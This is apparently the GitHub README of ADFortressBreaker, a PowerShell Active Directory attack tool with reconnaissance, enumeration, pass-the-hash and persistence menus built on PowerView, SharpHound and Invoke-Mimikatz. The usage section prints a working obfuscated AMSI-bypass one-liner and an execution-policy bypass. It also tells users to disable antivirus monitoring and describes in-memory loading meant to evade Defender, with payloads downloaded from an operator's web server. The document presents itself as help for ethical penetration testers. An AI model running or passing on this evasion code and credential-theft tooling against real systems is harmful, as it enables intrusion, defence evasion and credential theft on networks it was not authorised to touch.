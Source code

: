 <h1 align=center> ADFortressBreaker </h1>

![Default_fortress_breaker_logo_microsoft_windows_cybersecurity_1_b2db1a2f-aaee-41f3-85a0-d73527e5ce6e_0](https://github.com/m4rkh4ck/ADFortressBreaker/assets/92309458/08f54524-3a96-41a0-b294-da0514c611fd)

<h1 align=center><br><img src= https://img.shields.io/badge/Language-Powershell-blue> <img src= https://img.shields.io/badge/Version-v1.0-green> <a href= "https://www.linkedin.com/in/%F0%9F%92%BE-diego-marcaccio-06431970/"><img src= https://img.shields.io/badge/Follow-m4rkh4ck-black> <a href= "https://www.linkedin.com/in/antonio-migliuolo-723598207/"><img src= https://img.shields.io/badge/Follow-synackid-white></h1>

## About ADFortressBreaker
The script has been written to help Ethical Hackers to execute the most common command in a Penetration Test in an Active Directory environment without write any line of code.
It's designed to leave as few traces as possible, so all the module will be loaded directly in memory to avoid defender interception. Remember that all the modules inside the Modules folder will activate your antivirus, so before use it you have to disable real time monitoring or give an exclusion to the path where you will use it.

## Usage
Before launching AdFortressBreaker it is necessary to bypass powershell execution policy:
```
powershell -ep bypass
```
Then you have to bypass the AMSI control:
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Import the module:
```
. .\ADFortressBreaker.ps1
```

Execute:
```
Invoke-ADFortressBreaker
```

After that the user have to start a web server on port 8000 on his machine.



```
           _____  ______         _                     ____                 _
     /\   |  __ \|  ____|       | |                   |  _ \               | |
    /  \  | |  | | |__ ___  _ __| |_ _ __ ___  ___ ___| |_) |_ __ ___  __ _| | _____ _ __
   / /\ \ | |  | |  __/ _ \| '__| __| '__/ _ \/ __/ __|  _ <| '__/ _ \/ _ | |/ / _ \ '__|
  / ____ \| |__| | | | (_) | |  | |_| | |  __/\__ \__ \ |_) | | |  __/ (_| |   <  __/ |
 /_/    \_\_____/|_|  \___/|_|   \__|_|  \___||___/___/____/|_|  \___|\__,_|_|\_\___|_|


1) Reconnaissance
2) Enumeration
3) PassTheHash
4) Persistence
5) Exit


[*] Start a web server on your machine (exposed on port 8000) to download the .ps1 file

[*} Example: python3 -m http.server

[*] Set the web server ip address :

```

In the main menu the user can choose the activity to do by typing the corresponding number and pressing enter.

## Credits
To implement ADFortressBreaker we used the following tools: <br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1">Powerview.ps1</a> <br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1">PowerUp.ps1</a> <br>
- <a href= "https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1">SharpHound.ps1</a><br> 
- <a href= "https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1">ASREPRoast.ps1</a><br>
- <a href= "https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1">Invoke-Mimikatz.ps1</a><br>
 

<h1 align=center>License </h1>
This project is under the <a href="https://github.com/m4rkh4ck/ADFortressBreaker/blob/main/LICENSE">Commons Clause version of the MIT License license</a>. You can copy, modify, distribute and perform the work for whatever reason, excluding commercial purposes.

